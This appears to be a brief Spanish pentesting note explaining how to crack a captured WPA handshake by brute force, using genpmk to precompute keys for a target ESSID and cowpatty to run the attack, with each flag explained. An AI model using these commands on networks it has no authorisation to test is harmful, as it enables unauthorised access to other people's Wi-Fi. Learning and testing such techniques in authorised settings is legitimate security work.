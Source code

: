 En este caso usaremos 2 herramientas para realizar un ataque de fuerza bruta con una rainbow table, [[GenPMK]] para la creaccion de claves precomputadas y [[Cowpatty]] para el ataque de fuerza bruta.

	genpmk -f dicc.txt -d diccPreGen.genpmk -s "Essid-victima"
Creamos el diccionario precomputado.
-f *Indicamos el diccionario*
-d *El file output* Cowpatty solo acepta archivos .genpmk
-s *El essid del AC victima*

	cowpatty -d diccPreGen.genpmk -r CapturaDeAuth-01.cap -s "Router-victima"
Realizamos el ataque
-d *Diccionario precomputado*
-r *Captura del handshake*
